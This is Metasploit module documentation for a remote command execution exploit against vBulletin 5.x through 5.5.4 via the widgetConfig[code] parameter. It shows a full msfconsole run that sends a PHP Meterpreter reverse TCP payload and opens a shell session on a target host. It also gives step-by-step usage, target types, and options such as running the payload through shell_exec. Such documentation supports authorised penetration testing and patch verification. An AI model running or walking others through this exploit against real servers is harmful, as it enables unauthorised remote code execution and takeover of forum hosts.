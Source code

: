 ## Introduction

vBulletin 5.x through 5.5.4 allows remote command execution via the `widgetConfig[code]` parameter in an `ajax/render/widget_php` `routestring` `POST` request.

A proof of concept was originally published on [seclist.org](https://seclists.org/fulldisclosure/2019/Sep/31).

```
msf5 exploit(multi/http/vbulletin_widgetconfig_rce) > set rhosts 192.168.1.25
rhosts => 192.168.1.25
msf5 exploit(multi/http/vbulletin_widgetconfig_rce) > set lhost 192.168.1.13
lhost => 192.168.1.13
msf5 exploit(multi/http/vbulletin_widgetconfig_rce) > run

[*] Started reverse TCP handler on 192.168.1.13:4444 
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Sending stage (38288 bytes) to 192.168.1.25
[*] Meterpreter session 1 opened (192.168.1.13:4444 -> 192.168.1.25:35772) at 2019-10-18 13:53:39 +0400

meterpreter > 
```

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/vbulletin_widgetconfig_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set LHOST [IP]`
6. Do: `run`

## Targets

```
  Id  Name
  --  ----
  0   Automatic (Dropper)
  1   Linux (Stager)
  2   Windows (Stager)
  3   Unix (In-Memory)
  4   Windows (In-Memory)
```

## Options

**PHP_CMD**

Specify the PHP function in which you want execute the payload. Default: `shell_exec`

**TARGETURI**

The base URI path of vBulletin. Default: /

## Advanced Options

**ForceExploit**

Override check result.

## References

  1. <https://seclists.org/fulldisclosure/2019/Sep/31>
